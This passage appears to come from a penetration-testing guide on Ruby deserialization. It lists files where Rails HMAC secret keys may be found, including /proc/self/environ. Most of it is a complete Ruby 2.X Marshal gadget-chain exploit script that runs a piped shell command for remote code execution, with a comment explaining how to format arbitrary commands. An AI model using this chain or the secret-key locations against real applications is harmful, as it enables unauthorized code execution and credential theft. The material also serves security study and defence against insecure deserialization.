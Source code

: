 For securing serialized objects, **Ruby employs HMAC (Hash-Based Message Authentication Code)**, ensuring the integrity and authenticity of the data. The key utilized for this purpose is stored in one of several possible locations:

- `config/environment.rb`
- `config/initializers/secret_token.rb`
- `config/secrets.yml`
- `/proc/self/environ`

**Ruby 2.X generic deserialization to RCE gadget chain (more info in** [**https://www.elttam.com/blog/ruby-deserialization/**](https://www.elttam.com/blog/ruby-deserialization/)**)**:

```ruby
#!/usr/bin/env ruby

# Code from https://www.elttam.com/blog/ruby-deserialization/

class Gem::StubSpecification
  def initialize; end
end


stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|id 1>&2")#RCE cmd must start with "|" and end with "1>&2"

puts "STEP n"
stub_specification.name rescue nil
puts


class Gem::Source::SpecificFile
  def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts


$dependency_list= Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts


class Gem::Requirement
  def marshal_dump
    [$dependency_list]
  end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts

```
